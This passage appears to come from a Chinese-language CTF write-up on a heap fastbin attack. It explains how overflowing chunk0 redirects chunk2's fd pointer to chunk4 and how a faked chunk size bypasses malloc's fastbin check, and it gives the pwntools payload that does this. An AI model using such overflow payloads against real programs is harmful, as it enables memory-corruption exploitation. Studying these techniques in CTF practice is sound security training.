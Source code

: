 此时的堆布局如下：

![](7.png)

在释放两个之后，可以看到fastbins表中已经有两个地址，而且 chunk2->fd 指向 chunk1。此时可以编辑chunk0，修改 chunk2->fd 指向 chunk4，并且需要编辑chunk3，来修改chunk4的大小，以此绕过malloc时的fastbins校验。
```
payload = p64(0) * 3 + p64(0x21) + p64(0) * 3 + p64(0x21) + p8(0x80)
fill(0, payload)
payload = p64(0) * 3 + p64(0x21)
fill(3, payload)
```

此时的堆布局以及堆管理表的内容如下：

